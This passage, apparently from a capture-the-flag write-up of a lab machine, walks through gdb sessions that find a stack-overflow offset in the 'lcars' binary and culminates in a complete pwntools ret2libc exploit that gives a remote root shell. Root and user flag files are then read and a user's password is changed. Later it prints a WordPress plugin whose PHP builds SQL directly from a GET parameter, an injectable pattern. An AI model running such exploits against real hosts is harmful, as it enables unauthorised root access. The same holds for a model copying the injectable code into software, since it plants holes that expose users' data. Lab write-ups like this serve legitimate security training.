AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) quit
A debugging session is active.

	Inferior 1 [process 20679] will be killed.

Quit anyway? (y or n) y
u32@u32-vm:~/Desktop$
```

```sh
u32@u32-vm:~/Desktop$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/u32/Desktop/lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
4
Disable Security Force Fields
Enter Security Override:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x216
EBX: 0x41414141 ('AAAA')
ECX: 0x7ffffde9
EDX: 0xb7fbc870 --> 0x0
ESI: 0xb7fbb000 --> 0x1b1db0
EDI: 0xb7fbb000 --> 0x1b1db0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff570 ('A' <repeats 200 times>...)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff570 ('A' <repeats 200 times>...)
0004| 0xbffff574 ('A' <repeats 200 times>...)
0008| 0xbffff578 ('A' <repeats 200 times>...)
0012| 0xbffff57c ('A' <repeats 200 times>...)
0016| 0xbffff580 ('A' <repeats 200 times>...)
0020| 0xbffff584 ('A' <repeats 200 times>...)
0024| 0xbffff588 ('A' <repeats 200 times>...)
0028| 0xbffff58c ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ pattern_create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
gdb-peda$ quit
u32@u32-vm:~/Desktop$
```

```sh
u32@u32-vm:~/Desktop$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/u32/Desktop/lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
4
Disable Security Force Fields
Enter Security Override:
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x216
EBX: 0x73254125 ('%A%s')
ECX: 0x7ffffde9
EDX: 0xb7fbc870 --> 0x0
ESI: 0xb7fbb000 --> 0x1b1db0
EDI: 0xb7fbb000 --> 0x1b1db0
EBP: 0x41422541 ('A%BA')
ESP: 0xbffff570 ("nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$A"...)
EIP: 0x25412425 ('%$A%')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x25412425
[------------------------------------stack-------------------------------------]
0000| 0xbffff570 ("nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$A"...)
0004| 0xbffff574 ("A%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAs"...)
0008| 0xbffff578 ("%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-"...)
0012| 0xbffff57c ("DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(A"...)
0016| 0xbffff580 ("A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs"...)
0020| 0xbffff584 ("%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)"...)
0024| 0xbffff588 ("aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEA"...)
0028| 0xbffff58c ("A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x25412425 in ?? ()
gdb-peda$ pattern_offset %$A%
%$A% found at offset: 212
gdb-peda$ quit
u32@u32-vm:~/Desktop$
```

```sh
root@kali:~/enterprise/binary# python -c "print 'A' * 212 + 'B' * 4"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
root@kali:~/enterprise/binary#
```

```sh
u32@u32-vm:~/Desktop$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/u32/Desktop/lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
4
Disable Security Force Fields
Enter Security Override:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xfa
EBX: 0x41414141 ('AAAA')
ECX: 0x7fffff05
EDX: 0xb7fbc870 --> 0x0
ESI: 0xb7fbb000 --> 0x1b1db0
EDI: 0xb7fbb000 --> 0x1b1db0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff570 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff570 --> 0x0
0004| 0xbffff574 --> 0xb7e101a8 --> 0x4c90
0008| 0xbffff578 --> 0x6970bd60
0012| 0xbffff57c ("carda1")
0016| 0xbffff580 --> 0xb7003161
0020| 0xbffff584 --> 0x403000 --> 0x2ef0
0024| 0xbffff588 --> 0xb7e08700 (0xb7e08700)
0028| 0xbffff58c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ quit
u32@u32-vm:~/Desktop$
```

```sh
u32@u32-vm:~/Desktop$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
gdb-peda$
```

- `ASLR` is disabled

```sh
www-data@enterprise:/bin$ cat /proc/sys/kernel/randomize_va_space
0
www-data@enterprise:/bin$
```

```sh
www-data@enterprise:/bin$ ldd /bin/lcars | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
www-data@enterprise:/bin$ ldd /bin/lcars | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
www-data@enterprise:/bin$ ldd /bin/lcars | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
www-data@enterprise:/bin$
```

```sh
www-data@enterprise:/bin$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:32812           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0    286 10.10.10.61:36336       10.10.14.16:6666        ESTABLISHED 73117/sh
tcp6       0      0 :::5355                 :::*                    LISTEN      -
tcp6       0      0 :::8080                 :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::443                  :::*                    LISTEN      -
www-data@enterprise:/bin$
```

```sh
root@kali:~/enterprise# nc 10.10.10.61 32812

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
```

```sh
www-data@enterprise:/bin$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
(gdb) r
Starting program: /bin/lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
^C
Program received signal SIGINT, Interrupt.
0xf7fd7c89 in __kernel_vsyscall ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e3faf0 <exit>
(gdb) find &system,+9999999,"sh"
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.
(gdb) x/s 0xf7f6ddd5
0xf7f6ddd5:	"sh"
(gdb) quit
A debugging session is active.

	Inferior 1 [process 75929] will be killed.

Quit anyway? (y or n) y
www-data@enterprise:/bin$
```

```sh
root@kali:~/enterprise/binary# pip install pwntools
```

`buf.py`

```python
from pwn import *

context(os="linux", arch="i386")
HOST, PORT = "10.10.10.61", 32812

# EIP Overwrite @ 212
junk = "\x90" * 212

re2libc = p32(0xf7e4c060) # System()
re2libc += p32(0xf7e3faf0) # Exit()
re2libc += p32(0xf7f6ddd5) # sh

payload = junk + re2libc

r = remote(HOST, PORT)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")
r.sendline(payload)
r.interactive()
```

```sh
root@kali:~/enterprise/binary# python buf.py
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls -l
total 4
-r-------- 1 root root 33 Sep  7  2017 root.txt
$ cat root.txt
cf941b35b016b3d195639b748ddee717
$ cd /home
$ ls -l
total 4
drwxr-xr-x 4 jeanlucpicard jeanlucpicard 4096 Oct 20  2017 jeanlucpicard
$ cd jeanlucpicard
$ ls -l
total 4
-r--r--r-- 1 jeanlucpicard jeanlucpicard 33 Sep  8  2017 user.txt
$ cat user.txt
08552d48aa6d6d9c05dd67f1b4ba8747
$
```

###### SQL Injection

```sh
$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
joomla              apache-php7         7e5b76ab7247        9 months ago        432MB
wordpress           php5.6-apache       dccaeccfba36        9 months ago        406MB
mysql               latest              c73c7527c03a        10 months ago       412MB
$
```

```sh
$ passwd jeanlucpicard
Enter new UNIX password: $ Ab12345
Retype new UNIX password: $ Ab12345
passwd: password updated successfully
$
```

```sh
root@kali:~# ssh jeanlucpicard@10.10.10.61
The authenticity of host '10.10.10.61 (10.10.10.61)' can't be established.
ECDSA key fingerprint is SHA256:V1Gy5bQsnZRozgLJu1D18ZXy1bGTsVXW3KadcwJtHDI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.61' (ECDSA) to the list of known hosts.
jeanlucpicard@10.10.10.61's password:
Welcome to Ubuntu 17.04 (GNU/Linux 4.10.0-37-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * CVE-2017-14106 (divide-by-zero vulnerability in the Linux TCP stack) is
   now fixed in Ubuntu.  Livepatch now, reboot later.
   - https://ubu.one/CVE-2017-14106
   - https://ubu.one/rebootLater

34 packages can be updated.
0 updates are security updates.


*** System restart required ***
Last login: Thu Jan 18 14:55:50 2018
jeanlucpicard@enterprise:~$ sudo su -
[sudo] password for jeanlucpicard:
root@enterprise:~# ls
root.txt
root@enterprise:~# 
```

```sh
root@enterprise:~# docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
joomla              apache-php7         7e5b76ab7247        9 months ago        432MB
wordpress           php5.6-apache       dccaeccfba36        9 months ago        406MB
mysql               latest              c73c7527c03a        10 months ago       412MB
root@enterprise:~# docker exec -it wordpress bash
root@b8319d86d21e:/var/www/html# ls -l
total 200
-rw-r--r--  1 www-data www-data   418 Sep 25  2013 index.php
-rw-r--r--  1 www-data www-data 19935 Jan  2  2017 license.txt
-rw-r--r--  1 www-data www-data  7413 Dec 12  2016 readme.html
-rw-r--r--  1 www-data www-data  8153 Sep  7  2017 sqlShell.php
-rw-r--r--  1 www-data www-data  5447 Sep 27  2016 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Aug  2  2017 wp-admin
-rw-r--r--  1 www-data www-data   364 Dec 19  2015 wp-blog-header.php
-rw-r--r--  1 www-data www-data  1627 Aug 29  2016 wp-comments-post.php
-rw-r--r--  1 www-data www-data  2764 May 28 02:23 wp-config-sample.php
-rw-r--r--  1 www-data www-data  3147 May 28 02:23 wp-config.php
drwxr-xr-x  7 www-data www-data  4096 Oct 17  2017 wp-content
-rw-r--r--  1 www-data www-data  3286 May 24  2015 wp-cron.php
drwxr-xr-x 18 www-data www-data 12288 Aug  2  2017 wp-includes
-rw-r--r--  1 www-data www-data  2422 Nov 21  2016 wp-links-opml.php
-rw-r--r--  1 www-data www-data  3301 Oct 25  2016 wp-load.php
-rw-r--r--  1 www-data www-data 34327 May 12  2017 wp-login.php
-rw-r--r--  1 www-data www-data  8048 Jan 11  2017 wp-mail.php
-rw-r--r--  1 www-data www-data 16200 Apr  6  2017 wp-settings.php
-rw-r--r--  1 www-data www-data 29924 Jan 24  2017 wp-signup.php
-rw-r--r--  1 www-data www-data  4513 Oct 14  2016 wp-trackback.php
-rw-r--r--  1 www-data www-data  3065 Aug 31  2016 xmlrpc.php
root@b8319d86d21e:/var/www/html# cd wp-content
root@b8319d86d21e:/var/www/html/wp-content# ls -l
total 24
-rw-r--r-- 1 www-data www-data   28 Jan  8  2012 index.php
drwxr-xr-x 4 www-data www-data 4096 Sep  3  2017 languages
drwxr-xr-x 5 www-data www-data 4096 Oct 17  2017 plugins
drwxr-xr-x 5 www-data www-data 4096 Aug  2  2017 themes
drwxr-xr-x 2 www-data www-data 4096 Sep  7  2017 upgrade
drwxr-xr-x 3 www-data www-data 4096 Sep  6  2017 uploads
root@b8319d86d21e:/var/www/html/wp-content# cd plugins/
root@b8319d86d21e:/var/www/html/wp-content/plugins# ls -l
total 20
drwxr-xr-x 2 www-data www-data 4096 Sep  7  2017 UvkfHARMDm
drwxr-xr-x 4 www-data www-data 4096 Sep  3  2017 akismet
-rw-r--r-- 1 www-data www-data 2255 May 22  2013 hello.php
-rw-r--r-- 1 www-data www-data   28 Jun  5  2014 index.php
drwxr-xr-x 2 www-data www-data 4096 Oct 17  2017 lcars
root@b8319d86d21e:/var/www/html/wp-content/plugins# cd lcars/
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars# ls -l
total 12
-rw-r--r-- 1 www-data www-data 377 Oct 17  2017 lcars.php
-rw-r--r-- 1 www-data www-data 501 Oct 17  2017 lcars_db.php
-rw-r--r-- 1 www-data www-data 624 Oct 17  2017 lcars_dbpost.php
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars# cat lcars_db.php
<?php
include "/var/www/html/wp-config.php";
$db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
// Test the connection:
if (mysqli_connect_errno()){
    // Connection Error
    exit("Couldn't connect to the database: ".mysqli_connect_error());
}


// test to retireve an ID
if (isset($_GET['query'])){
    $query = $_GET['query'];
    $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    $result = $db->query($sql);
    echo $result;
} else {
    echo "Failed to read query";
}


?>
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars#
```

```sh
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars# cat - > test.php
<?php
include "/var/www/html/wp-config.php";
$db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
// Test the connection:
if (mysqli_connect_errno()){
    // Connection Error
    exit("Couldn't connect to the database: ".mysqli_connect_error());
}


// test to retireve an ID
if (isset($_GET['query'])){
    $query = $_GET['query'];
    $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    $result = $db->query($sql);
    echo $sql;
    echo "\n";
    echo gettype($result);
    echo "\n";
    echo $result;
} else {
    echo "Failed to read query";
}


?>
^C
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars#
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars# cat test.php
<?php
include "/var/www/html/wp-config.php";
$db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
// Test the connection:
if (mysqli_connect_errno()){
    // Connection Error
    exit("Couldn't connect to the database: ".mysqli_connect_error());
}


// test to retireve an ID
if (isset($_GET['query'])){
    $query = $_GET['query'];
    $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    $result = $db->query($sql);
    echo $sql;
    echo "\n";
    echo gettype($result);
    echo "\n";
    echo $result;
} else {
    echo "Failed to read query";
}


?>
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars#
```

```sh
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars# cat - > info.php
<? phpinfo(); ?>
^C
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars#
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars# cat info.php
<? phpinfo(); ?>
root@b8319d86d21e:/var/www/html/wp-content/plugins/lcars#
```





